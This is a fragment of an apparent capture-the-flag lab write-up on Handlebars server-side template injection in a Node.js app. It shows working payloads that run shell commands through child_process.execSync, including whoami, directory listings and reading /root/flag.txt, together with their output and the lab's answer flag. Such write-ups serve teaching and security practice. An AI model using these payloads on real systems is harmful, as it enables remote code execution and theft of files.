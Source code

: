 No errors and the code ran, add the command for whoami and run it
```
{{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}
```

```
       We will contact you at:       e
      2
      [object Object]
        function Function() { [native code] }
2
        [object Object]
            root
```

We are running as root.

Answer: root

### SUBMIT FLAG

Submit root flag

Modify the payload to find the flag

{{this.push "return process.mainModule.require('child_process').execSync('pwd');"}}
{{this.push "return process.mainModule.require('child_process').execSync('ls');"}}
{{this.push "return process.mainModule.require('child_process').execSync('ls /root');"}}
{{this.push "return process.mainModule.require('child_process').execSync('cat /root/flag.txt');"}}

Answer: 6b258d726d287462d60c103d0142a81c